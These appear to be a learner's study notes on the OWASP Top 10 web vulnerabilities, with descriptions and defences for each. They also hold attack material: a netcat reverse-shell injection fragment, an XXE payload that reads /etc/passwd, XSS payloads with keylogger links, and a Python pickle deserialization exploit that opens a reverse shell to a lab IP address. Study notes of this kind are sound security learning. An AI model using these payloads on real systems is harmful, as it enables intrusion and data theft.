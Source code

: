 = OWASP

== Severity 1: Injection
This flaw occurs because user controlled input is interpreted as actual commands or parameters by the application.

* SQL injection: user input is passed to SQL queries
* Command injection: user input is passed to system commands
* Email injection: send email messages without prior authorization by the email server -> add extra data to fields which are not interpreted by the server correctly

Defense against that:

* Use allow list: when input is sent to the server, input is compared to a list of safe input or characters
* Strip input: if the input contains dangerous characters, these characters are removed before they are processed

Use libraries to do this task, do not implement it.

Command injection can result in reverse shell. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md[Cheat sheet]

[source,shell]
-----
;nc -e /bin/bash
-----

Active command injection returns the result, blind does not.

=== In practice

|===
|OS |Command

|Linux
|whoami

|Linux
|id

|Linux
|ifconfig / ip addr

|Linux
|uname -a

|Linux
|ps -ef

|Windows
|whoami

|Windows
|ver

|Windows
|ipconfig

|Windows
|tasklist

|Windows
|netstat -an

|===

== Severity 2: Broken Authentication
Some common flaws in authentication mechanisms:

* Brute force attacks
* Use of weak credentials: web app should set strong password policies
* Weak session cookies: if session cookie contains predictable values, it is easily forged

Various mitigations:

* avoid password guessing attacks by ensuring a strong password policy
* avoid brute force attacks by ensuring the app enforces an automatic lockout after a certain number of attempts
* implement Multi-Factor Authentication

=== In practice
Try to re-register an existing user with slight modification like " admin" with a space. Based on the web app implementation, it is possible to get the same rights as the normal admin.

== Severity 3: Sensitive Data Exposure
Could be directly linked to personal info (name, date of birth, financial info, ...) but also something technical such as usernames and password.

Normally with man in the middle attack but this can also be seen in bad web applications.

Example: SQLite database accessible to webapp's users (root directory).

=== In practice
Check source code for clues (comments, ...), scan website folders with tools or manually, ...

== Severity 4: XML External Entity (XEE)
Vulnerability that abuses features of XML parsers/data. It often allows an attacker to interact with any backend or external systems that the application itself can access and can allow the attacker to read the file on that system. They can also cause Denial of Service attack, Server-Side Request Forgery (SSRF), port scanning, remote code execution.

XML is a case-sensitive language!

Two types:

* In-band XXE: attacker receives an immediate response to the XXE payload
* Out-of-band XXE / Blind XXE: no immediate response from web application so we must reflect the output to some file or our server

=== In practice
Use Document Type Definition (DTD)

[source,xml]
----
<!DOCTYPE note [
    <!ELEMENT note (to,from,heading,body)>
    <!ELEMENT to (#PCDATA)>
    <!ELEMENT from (#PCDATA)>
    <!ELEMENT heading (#PCDATA)>
    <!ELEMENT body (#PCDATA)>
]>
----

* !DOCTYPE defines root element
* !ENTITY defines an entity
* !ELEMENT defines an element
* #PCDATA means parseable character data

Payload:
[source,xml]
----
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
----

== Severity 5: Broken Access Control
Access protected pages as a simple user -> access controls are broken because the user may be able to view sensitive info or access unauthorized functionality.

* Horizontal privilege escalation: access data from another user with the same level of permissions
* Vertical privilege escalation: access data from another user with higher level of permissions

Example:

* manually update query parameters -> http://example.com/app/accountInfo?acct=notmyacct
* force browse target URLs -> http://example.com/app/admin_getappInfo

To put simply, broken access control allows attackers to bypass authorization which can allow them to view sensitive data or perform tasks as if they were a privileged user.

A good way to stop users from accessing sensitive resource is to only load parts of the application that need to be used by them. This stops sensitive information such as an admin page from been leaked or viewed.

=== In practice
Use insecure direct object reference (IDOR) by exploiting a misconfiguration in the way user input is handled

== Severity 6: Security Misconfiguration
Security misconfigurations include:

* Poorly configured permissions on cloud services, like S3 buckets
* Having unnecessary features enabled, like services, pages, accounts or privileges
* Default accounts with unchanged passwords
* Error messages that are overly detailed and allow an attacker to find out more about the system
* Not using https://owasp.org/www-project-secure-headers/[HTTP security headers], or revealing too much detail in the Server: HTTP header

https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration.html[OWASP top 10 security misconfiguration]

=== In practice
Test for default passwords. Look for the app source code on GitHub or the documentation.

== Severity 7: Cross-Site Scripting (XSS)
Attacker executes malicious scripts on the victim's machine using a web application. This happens with unsanitized user input (JavaScript, VBScript, Flash and CSS).

Main types of XSS:

* Stored XSS: most dangerous, malicious string originates from website's database
* Reflected XSS: malicious payload is part from the victims request to the website. Payload is included in response back to the user. Attacker needs to trick the victim into clicking a URL to execute the malicious payload
* DOM-Based XSS: change page that is displayed in the browser

XSS payloads (http://www.xss-payloads.com/):

* popup: <script>alert(“Hello World”)</script>
* write HTML: document.write
* XSS keylogger: http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html
* port scanning: http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html

=== In practice
Check payloads for stored/reflected XSS.

Check if we can get document.cookie, ...

== Severity 8: Insecure Deserialization
Replacing data processed by an application with malicious code allowing anything from DoS to remote code execution (RCE)

* low exploitability, no reliable tool/framework, need good understand of the inner-working
* only as dangerous as the attacker's skill permits and the value of the data that is exposed. If only a DoS is available, some organisations will recover, some won't.

Any application that stores or fetches data where there are no validations or integrity checks in place for the data queried or retained:

* e-commerce sites
* forums
* API
* application runtime (tomcat, jenkins, jboss, ...)

Serialisation is the process of converting objects used in programming into simpler, compatible formatting for transmitting between systems or networks for further processing or storage. Deserialization is converting serialised information into their complex form - an object that the application will understand.

=== In practice
If a flask app, we can create a payload (if base64) to create a reverse shell. This payload should be added to the cookie that is being deserialized by the server. We need to know (open source or guess) the logic in the server to process our input.

[source,python]
----
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.10.164.135 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
----

== Severity 9: Components with known vulnerabilities
Find version of the application being used and look online for known vulnerabilities like in https://www.exploit-db.com/exploits/41962[exploit-db.com]

== Severity 10: Insufficient Logging and Monitoring
Every action performed by the user should be logged. Without logging, we can't tell what actions an attacker performed if they gain access to particular web applications. This can help against regulatory damages (know what the attacker got for regulations) or risk of further attacks.

Info in logs should include:

* HTTP status code
* timestamps
* usernames
* API endpoint and page locations
* IP addresses

Logs must be encrypted, secured and copied in multiple locations.

Monitor and detect suspicious activities:

* multiple unauthorized attempts for a particular actions
* requests from anomalous IP addresses or locations
* use of automated tools (User-Agent, speed of requests)
* common payloads (XSS)

=== In practice